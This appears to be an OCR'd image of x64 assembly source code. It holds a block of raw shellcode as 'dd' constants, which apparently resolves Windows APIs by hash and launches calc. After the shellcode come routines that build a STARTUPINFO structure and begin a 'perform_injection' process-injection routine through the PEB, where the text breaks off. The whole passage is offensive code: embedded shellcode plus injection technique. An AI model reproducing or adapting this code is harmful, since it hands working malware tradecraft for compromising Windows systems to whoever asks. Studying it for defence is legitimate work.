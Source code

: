     dd 0x4920408b
    dd 0x56e3d001
    dd 0x41c9ff48
    dd 0x4888348b
    dd 0x314dd601
    dd 0xc03148c9
    dd 0xc9c141ac
    dd 0xc101410d
    dd 0xf175e038
    dd 0x244c034c
    dd 0xd1394508
    dd 0x4458d875
    dd 0x4924408b
    dd 0x4166d001
    dd 0x44480c8b
    dd 0x491c408b
    dd 0x8b41d001
    dd 0x01488804
    dd 0x415841d0
    dd 0x5a595e58
    dd 0x59415841
    dd 0x83485a41
    dd 0x524120ec
    dd 0x4158e0ff
    dd 0x8b485a59
    dd 0xff57e912
    dd 0x485dffff
    dd 0x000001ba
    dd 0x00000000
    dd 0x8d8d4800
    dd 0x00000101
    dd 0x8b31ba41
    dd 0xd5ff876f
    dd 0x2a1de0bb
    dd 0xa6ba410a
    dd 0xff9dbd95
    dd 0xc48348d5
    dd 0x7c063c28
    dd 0xe0fb800a
    dd 0x47bb0575
    dd 0x6a6f7213
    dd 0x89415900
    dd 0x63d5ffda
    dd 0x00636c61
 
        
    create_empty_structure:
        pop rbx
        xor rax, rax                        ; Zero RAX
        sub rsp, rcx                        ; Allocate stack space for the two
                                            ; structures
        mov rdi, rsp                        ; set rdi to point to the STARTUPINFO
                                            ; structure
        push rdi                            ; Preserve RDI on the stack as it will
                                            ; be modified by the following
                                            ; instructions
        rep stosb                           ; Repeat storing zero at the buffer
                                            ; starting at rdi until rcx is zero
        pop rdi                             ; restore RDI to its original value
        push rbx
        ret
 
    perform_injection:
        ; Get current process ImagePathName
        mov rax, [gs:0x60]                  ; Store the address of the PEB structure in RAX 